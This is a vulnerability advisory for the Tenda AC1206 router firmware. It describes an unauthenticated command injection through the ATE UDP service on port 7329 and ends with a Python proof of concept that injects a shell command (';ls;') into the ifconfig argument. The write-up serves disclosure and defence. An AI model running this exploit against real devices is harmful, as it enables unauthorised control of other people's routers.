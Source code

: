 # Description

Tenda AC1206 ate_ifconfig_set has pre-authentication command injection

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version

V15.03.06.23 and earlier 

# details

When accessing `url:/goform/ate`, `TendaAte` will be called

![2024-10-04_173619](.\2024-10-04_173619.png)

The `TendaAte` function creates a thread and calls `ate_main_handle`

![2024-10-04_173913](.\2024-10-04_173913.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

When `command` is `ifconfig`, the `ate_ifconfig_set` function is entered, in which the `arg` passed in by the user is not checked, and a command injection exists

![2024-10-04_173320](.\2024-10-04_173320.png)

# POC

```py
import socket
import os

os.system('curl http://192.168.0.10/goform/ate')

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('192.168.0.10', 7329)
command = b'ls'
message = b'ifconfig ;' + command + b';'

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```

![2024-10-04_184329](.\2024-10-04_184329.png)